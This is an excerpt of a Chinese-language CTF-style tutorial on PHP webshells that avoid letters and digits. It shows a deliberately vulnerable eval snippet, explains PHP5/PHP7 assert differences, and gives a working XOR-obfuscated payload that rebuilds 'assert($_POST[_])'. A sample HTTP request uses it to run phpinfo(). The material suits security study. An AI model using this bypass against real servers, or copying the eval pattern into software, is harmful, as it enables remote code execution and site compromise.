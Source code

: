 ![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/6.png)

---

## 例题2

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

将非字母、数字的字符经过各种变换，最后能构造出 a-z 中任意一个字符。然后再利用 PHP 允许动态函数执行的特点，拼接处一个函数名，如 “assert”，然后动态执行之即可。

那么，变换方法 将是解决本题的要点。

不过在此之前，我需要说说 php5 和 7 的差异。

php5 中 assert 是一个函数，我们可以通过 $f='assert';$f(...); 这样的方法来动态执行任意代码。

但 php7 中，assert 不再是函数，变成了一个语言结构（类似 eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用 file_put_contents 函数，同样可以用来 getshell。

**思路1**

通过异或执行命令

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

```
POST /?shell=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);
Content-Type: application/x-www-form-urlencoded

_=phpinfo();
```
